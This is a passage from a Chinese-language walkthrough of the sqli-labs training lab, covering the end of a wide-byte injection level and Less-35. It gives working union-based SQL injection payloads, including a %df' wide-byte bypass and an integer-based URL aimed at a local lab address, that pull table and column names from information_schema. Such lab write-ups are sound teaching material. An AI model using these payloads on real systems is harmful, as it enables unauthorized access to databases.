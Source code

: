 ```sql
uname=%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 ))#
```

![](file/image_OGihRmZACc.png)

### Less-35：GET - Bypass Add slashes (we dont need them) lnteger based

**注入类型**

联合注入

**闭合方式**

id=\$id

```sql
//因为闭合是整型的就用不上宽字节，但是sql语句里面的 ' 还是会被转义，所以用一句话爆字段
http://192.168.65.128/sqli-labs/Less-35/?id=-1 
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3
```
